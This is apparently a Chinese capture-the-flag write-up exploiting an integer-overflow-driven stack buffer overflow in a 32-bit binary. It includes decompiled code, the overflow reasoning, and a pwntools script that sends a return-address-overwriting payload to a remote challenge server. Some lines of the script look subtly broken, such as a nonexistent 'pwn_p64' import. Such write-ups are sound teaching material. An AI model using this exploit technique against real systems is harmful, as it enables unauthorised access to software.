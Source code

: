 1. checksec

   ```
   ┌──(root㉿kali)-[/home/kali/Desktop]
   └─# checksec int   
   [*] '/home/kali/Desktop/int'
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

   之开启了栈不可执行保护，栈溢出可以利用
2. IDA静态分析

   ```c
   int __cdecl main(int argc, const char **argv, const char **envp)
   {
     int v4; // [esp+Ch] [ebp-Ch] BYREF

     setbuf(stdin, 0);
     setbuf(stdout, 0);
     setbuf(stderr, 0);
     puts("---------------------");
     puts("~~ Welcome to CTF! ~~");
     puts("       1.Login       ");
     puts("       2.Exit        ");
     puts("---------------------");
     printf("Your choice:");
     __isoc99_scanf("%d", &v4);
     if ( v4 == 1 )
     {
       login();
     }
     else
     {
       if ( v4 == 2 )
       {
         puts("Bye~");
         exit(0);
       }
       puts("Invalid Choice!");
     }
     return 0;
   }
   ```

   main函数中无可利用的点，在看login函数

   ```c
   int login()
   {
     char buf[512]; // [esp+0h] [ebp-228h] BYREF
     char s[40]; // [esp+200h] [ebp-28h] BYREF

     memset(s, 0, 0x20u);
     memset(buf, 0, sizeof(buf));
     puts("Please input your username:");
     read(0, s, 0x19u);
     printf("Hello %s\n", s);
     puts("Please input your passwd:");
     read(0, buf, 0x199u);
     return check_passwd(buf);
   }
   ```

   所有的输入函数都做了长度限制，无法利用，继续寻找check_passwd函数的漏洞

   ```c
   char *__cdecl check_passwd(char *s)
   {
     char dest[11]; // [esp+4h] [ebp-14h] BYREF
     unsigned __int8 v3; // [esp+Fh] [ebp-9h]

     v3 = strlen(s);
     if ( v3 <= 3u || v3 > 8u )
     {
       puts("Invalid Password");
       return (char *)fflush(stdout);
     }
     else
     {
       puts("Success");
       fflush(stdout);
       return strcpy(dest, s);
     }
   }
   ```

   该函数定义了一个无符号8bit位的v3变量，给v3赋值为s字符数组的长度，看两个if分支，当长度大于3小于等于8时，登陆成功，调用strcpy函数，登陆失败的话什么也不做。strcpy函数，不遇到终止符00就不停止复制，没有长度限制，可以利用dest数组实现栈溢出，但被赋值的s字符数组长度只能介于4-8之间。可以利用无符号v3变量实现溢出。

   ```
   无符号整型的溢出。例如该题，v3内存所占8bit位：0x00000000
   将260赋值给v3时，先将v3转化成二进制：0001 0000 0100，根据v3所能容纳的大小，取后八个比特位赋值给v3，也就是0000 0100，也就是v3=4
   ```

   所以当给s字符数组赋值时输入260个字符，v3就被赋值为4，调用strcpy，将s数组的内容复制到dest数组，dest越界，返回地址被覆写，查找到函数列表中有what_is_this后门函数，就不用考虑ret2libc了，一个简单的ret2text
3. 利用：

   直接输20个填充字符a，用来填满栈，分析一下汇编代码，结尾是有一条leave指令的，这条指令的作用是将调用函数login的栈恢复，所以再填充4字节，接下来才是函数返回地址，四字节的what_is_this函数地址，然后再填充除00外的任意字符，这些字符总长度在260-264之间
4. 完整利用：

   ```python
   from pwn import *
   from pwn_p64 import *

   io = remote("61.147.171.105", 63971)
   payload = b'a' * 0x14 + b'a' * 4 + p32(0x0804868B, "hex") + (256 - 0x14 - 4 - 4) * b'a' + 4 * b'a'

   io.sendlineafter("Your choice:", "1")
   io.sendlineafter("Please input your username:", "wky")
   io.sendlineafter("Please input your passwd:", payload)

   io.interactive()
   ```
